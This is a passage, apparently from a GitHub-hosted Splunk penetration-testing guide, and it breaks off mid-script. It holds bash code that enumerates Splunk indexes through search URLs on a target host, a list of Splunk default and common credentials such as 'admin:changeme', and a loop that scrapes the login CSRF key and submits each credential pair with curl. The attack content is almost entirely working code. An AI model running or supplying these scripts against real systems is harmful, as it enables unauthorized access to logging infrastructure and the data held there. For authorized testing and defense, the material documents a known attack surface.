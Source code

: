 ```bash
        "network"
        "firewall"
        "web"
        "mail"
        "database"
        "application"
        "_internal"
        "_audit"
        "_introspection"
    )
    
    echo "[+] Testing common index names:"
    for index in "${common_indexes[@]}"; do
        # Test search capability (requires authentication usually)
        search_url="$base_url/en-US/app/search/search?q=search%20index=$index%20%7C%20head%201"
        response=$(curl -s -o /dev/null -w "%{http_code}" "$search_url")
        if [[ $response == "200" ]]; then
            echo "  [+] Index accessible: $index"
        fi
    done
}

# index_discovery "http://target.com:8000"
```

### Authentication Mechanism Analysis

#### Default Credential Testing
```bash
# Splunk default and common credentials
splunk_creds=(
    "admin:changeme"        # Historical default
    "admin:admin"
    "admin:password"
    "admin:Welcome1"
    "admin:Password123"
    "admin:splunk"
    "admin:"
    "splunk:splunk"
    "root:changeme"
    "administrator:changeme"
)

# Automated credential testing
credential_testing() {
    local base_url=$1
    
    echo "[+] Testing Splunk credentials:"
    
    for cred in "${splunk_creds[@]}"; do
        username=$(echo $cred | cut -d':' -f1)
        password=$(echo $cred | cut -d':' -f2)
        
        # Test authentication via login form
        csrf_token=$(curl -s "$base_url/en-US/account/login" | \
          grep -oP 'name="splunk_form_key" value="\K[^"]+')
        
        response=$(curl -s -c cookies.txt \
          -d "username=$username&password=$password&splunk_form_key=$csrf_token" \
          "$base_url/en-US/account/login" \
          -w "%{http_code}")
        
        # Check for successful authentication
```